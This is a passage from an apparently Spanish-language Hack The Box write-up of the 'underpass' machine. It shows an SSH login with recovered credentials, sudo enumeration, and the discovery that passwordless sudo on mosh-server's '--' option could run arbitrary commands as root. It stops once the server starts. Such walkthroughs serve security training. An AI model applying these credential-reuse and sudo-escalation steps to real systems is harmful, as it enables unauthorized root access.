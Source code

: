 Confirmo que las credenciales `svcMosh`:`underwaterfriends` permiten una conexión exitosa al servicio SSH.

```terminal
/home/kali/Documents/htb/machines/underpass:-$ ssh svcMosh@underpass.htb
svcMosh@underpass.htb's password: underwaterfriends

svcMosh@underpass:~$ cat user.txt
```

---
## Privilege Escalation

Solo los usuarios `root` y `svcMosh` disponen de una shell interactiva, lo que indica que no hay otros usuarios privilegiados configurados con acceso directo.

```terminal
svcMosh@underpass:~$ cat /etc/passwd | grep /bash$
root:x:0:0:root:/root:/bin/bash
svcMosh:x:1002:1002:svcMosh,60001,8675309,8675309:/home/svcMosh:/bin/bash
```

Consulto los permisos de sudo para el usuario actual y muestra que `svcMosh` puede ejecutar `/usr/bin/mosh-server` como cualquier usuario, incluido `root`, sin requerir contraseña.

```terminal
svcMosh@underpass:~$ sudo -l
Matching Defaults entries for svcMosh on localhost:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User svcMosh may run the following commands on localhost:
    (ALL) NOPASSWD: /usr/bin/mosh-server
```

La ayuda del binario confirma que es posible ejecutar un comando arbitrario utilizando el delimitador `--`, lo cual representa una vía potencial de escalada de privilegios

```terminal
svcMosh@underpass:~$ /usr/bin/mosh-server -h
Usage: /usr/bin/mosh-server new [-s] [-v] [-i LOCALADDR] [-p PORT[:PORT2]] [-c COLORS] [-l NAME=VALUE] [-- COMMAND...]
```

Al ajecutar la herramienta, se inicia un proceso en segundo plano, escuchando en el puerto 60001. A partir del mensaje generado `MOSH CONNECT 60001`, infiero que es necesario un cliente que se conecte a ese puerto.

```terminal
svcMosh@underpass:~$ /usr/bin/mosh-server

MOSH CONNECT 60001 dXHFz0SmFBIZ1R9O2f4ooQ

mosh-server (mosh 1.3.2) [build mosh 1.3.2]
Copyright 2012 Keith Winstein <mosh-devel@mit.edu>
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>.
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.

[mosh-server detached, pid = 4926]
```
